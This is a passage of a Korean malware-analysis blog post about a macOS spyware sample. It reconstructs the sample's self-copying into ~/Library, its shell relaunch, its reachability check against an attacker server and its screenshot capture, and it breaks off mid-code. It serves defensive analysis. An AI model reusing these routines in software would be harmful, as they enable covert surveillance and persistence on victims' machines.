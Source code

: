 ```yaml
    class=\"aligncenter size-full wp-image-731\" alt=\"soz method\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.38.09-AM.png\"
    width=\"801\" height=\"490\" /></a>\n\nsoz는 \"stringWithFormat\"으로 \"open -a $HOME/Library/OSX_Update.app\"
    문자열을 만들고 sqq 메서드를 실행한다. sqq 메서드는 다음과 같다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.38.58-AM.png\"><img
    class=\"aligncenter size-full wp-image-732\" alt=\"sqq\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.38.58-AM.png\"
    width=\"870\" height=\"528\" /></a>\n\nsqq 메서드는 \"/bin/sh\" 명령으로 soz에서 만든 \"open
    -a ~\" 문자열을 실행(launched TaskWithLaunchPath) 한다.  위 내용을 pseudo-code로 작성하면 다음과 같다.\n<pre
    class=\"lang:default decode:true\" title=\"sqq method\">- (void) [PopAppDelegate
    sqq: openmalware] // \"open -a ~/Library/ ~~\"를 인자로 전달\n{\n    NSString shellpath
    = [self cxx:@\"fHXxeLSbD5g=\"]; // \"/bin/sh\"\n    NSArray arg = [NSArray arrayWithObjects:@\"-c\",
    @openmalware];\n    [NSTask launchedTaskWithLaunchPath:shellpath arguments:arg];
    // \"/bin/sh -c open -a $HOME/Library/OSX_Update.app\" 을 실행\n    uint return_val
    = [waitUntilExit];\n    return return_val;\n}</pre>\n즉, 악성코드는 복사한 악성코드를 실행하고 자기
    자신을 종료하게 된다. 요약하면 다음과 같다.\n<ul>\n\t<li>악성코드를 \"~/Library\"에 복사한다</li>\n\t<li>\"/bin/sh
    -c open -a ~/Library/OSX_Update.app\"을 실행한다.</li>\n\t<li>원본 악성코드는 exit(0);으로 종료된다.</li>\n\t<li>open으로
    실행된 자신의 복사본은 파일 복사를 실패(copyItemAtPath 메서드 실패)하여 exit되지 않고 return 됨으로 다음 메서드(eqox)를
    실행한다.</li>\n</ul>\n&nbsp;\n<h2>4. 서버 상태 체크</h2>\n해당 임무가 완료되면, 주기적으로 eqox 메서드를
    실행한다. 이 메서드는 공격자의 서버가 접속 가능한지 지속적으로 확인한다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.39.58-AM.png\"><img
    class=\"aligncenter size-full wp-image-733\" alt=\"eqox method\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.39.58-AM.png\"
    width=\"651\" height=\"446\" /></a>\n\n위 코드는 Objective C 코드로 작성하면 다음과 같다.\n<pre
    class=\"lang:default decode:true\" title=\"eqox method\">- (uint) [eqox]\n{\n
    \   NSString domainname = [self cxx:@\"HtYGE4fFRj4DMt9S9V/8GlFP+BOPsjBH]; // 도메인
    명을 복호화하여 저장\n    NSURL url = [NSURL initWithString:domainname];\n    NSURLRequest
    request = [NSURLRequest alloc] initWithURL:url cachePolicy:0x01 timeoutInterval:];
    // URL 요청 패킷을 생성, cachepolicy:NSURLRequestReloadIgnoringLocalCacheData(0x01)\n
    \   return_val = [NSURLConnection sendSynchronousRequest:request returningResponse:nil
    error:nil];\n    if (return_val == nil) // 접속 실패 시\n    {\n        return -1;\n
    \   }\n    else // 접속 성공 시\n    {\n        return 0;\n    }\n}</pre>\n해당 도메인을
    복호화하면 \"http://fxxxxxxh.com\" 정보를 획득할 수 있다. <span style=\"line-height: 1.5em;\">해당
    도메인을 whois로 조회해보면 러시아에 위치한다.</span>\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-23-at-3.34.19-PM.png\"><img
    class=\"aligncenter size-full wp-image-713\" alt=\"whois?\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-23-at-3.34.19-PM.png\"
    width=\"864\" height=\"371\" /></a>\n\nwhois 결과를 봐도; 자기 자신을 숨기기 위한 노력을 많이 하는 걸
    볼 수 있는데, 등록자 이메일이나 주인의 이름을 Privacy Protection Service를 이용하여 숨겨두었다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-10.48.40-AM.png\"><img
    class=\"aligncenter size-full wp-image-724\" alt=\"whois 결과\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-10.48.40-AM.png\"
    width=\"542\" height=\"182\" /></a>\n<h3></h3>\n&nbsp;\n<h2>5. 현재 시스템 화면을 캡처(bovx
    method part 1)</h2>\n도메인 접속을 확인하고 나면,  bovx 메서드를 실행한다. 이 메서드는 \"/tmp/yang/[dateformat].png\"
    파일을 인자로하여 애플의 기본 프로그램인 \"screencapture\" 을 실행한다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.41.18-AM.png\"><img
    class=\"aligncenter size-full wp-image-734\" alt=\"bovx method\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.41.18-AM.png\"
    width=\"702\" height=\"417\" /></a>\n\nPseudo-Code는 다음과 같다.\n<pre class=\"lang:objc
    decode:true\" title=\"bovx method\">- (void) [bovx]\n{\n\tNSString tmp = [self
    cxx:@“fEh3F36QAeU=“]; // \"tmp\"\n\tNSString yang = [self cxx:@“/I1427B/2/w=“];
    // \"yang\"\n\tNSString path = [NSString stringWithFormat:@“%@%@%@“ tmp @“/“ yang];\n\tNSFileManager
    manager = [NSFileManager defaultManager];\n\tif (0 == [manager fileExistsAtPath:path])
    // 없으면 디렉터리 생성\n\t{\n\t\t[manager createDirectoryAtPath:path attributes:nil];\n\t}\n\tNSDate
    date = [NSDate date]\n\tNSDateFormatter dateformat = [[NSDateFormatter alloc]
    init];\n\tsetformat = [dateformat setDateFormat:[self cxx:@“kLBf7h7di4kSVBDQsZgCuzfbz16dIBnW”]];
    // \"yy-MM-dd-HH:mm:ss\"\n\tNSString screenshotdate = [setformat stringFromDate];\n\tNSString
    extension = [self cxx:@ “LMHrvuDJskY”]; // \".png\"\n\tNSString fullpath = [NSString
```